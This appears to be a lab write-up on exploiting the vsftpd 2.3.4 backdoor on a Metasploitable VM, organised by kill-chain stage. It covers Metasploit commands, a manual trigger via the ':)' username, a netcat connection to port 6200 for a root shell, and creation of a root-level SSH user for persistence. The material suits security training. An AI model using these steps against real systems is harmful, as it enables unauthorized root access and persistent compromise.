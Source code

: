 # Exploiting `vsftpd`

--- 

## Metasploit Method

### Reconnaissance
- Netdiscover to identify IP Address of Metasploitable (Target) VM 
- A bash script running nmap scans to identify: 
    - Open Ports 
    - Services 
    - Versions 
    - Operating System

- Identified Port 21 is open and running vsftpd 2.3.4 which is vulnerable to Backdoor Command Execution 

### Weaponization
- Used Metasploit Framework to automate the exploit 
- The exploit used is vsfptd_234_backdoor 
- Metaploit path is `exploit/unix/ftp/vsftpd_234_backdoor`

```bash 
msfconsole 
search vsftpd 
use 1 
set RHOSTS 192.168.56.105
```

### Delivery

- Ran the exploit 

```bash 
run 
```

### Exploitation 

- The exploit opens listening port 6200 on the Target VM
- On another terminal used netcat to connect to port 6200 
- nc 192.168.56.105 6200
- A terminal with root privileges was achieved 

### Installation 
- Created a new user with root-level SSH 

### Command And Control 
- The listening port on 6200 acts as a C2C channel
- When connected via SSH this becomes the new C2C channel

### Actions On Objectives 

- Exploitation was achieved 
- An SSH user was created 

## Manual Method

### Reconnaissance
- Netdiscover to identify IP Address of Metasploitable (Target) VM 
- A bash script running nmap scans to identify: 
    - Open Ports 
    - Services 
    - Versions 
    - Operating System

- Identified Port 21 is open and running vsftpd 2.3.4 which is vulnerable to Backdoor Command Execution 

### Weaponization
- Connect to Port 21 via Telnet or FTP
- Enter username appended with :)
- Enter any string for the password 

```bash 
telnet 192.168.56.105 21 # If using telnet 
ftp 192.168.56.105 # For FTP
USER backdoor:) 
PASS hacked
CTRL + J # To escape
```

### Delivery

- Run the commands

### Exploitation 

- The exploit opens listening port 6200 on the Target VM
- On another terminal used netcat to connect to port 6200 
- nc 192.168.56.105 6200
- A terminal with root privileges was achieved 

### Installation 
- Created a new user with root-level SSH 

### Command And Control 
- The listening port on 6200 acts as a C2C channel
- When connected via SSH this becomes the new C2C channel

### Actions On Objectives 

- Exploitation was achieved 
- An SSH user was created 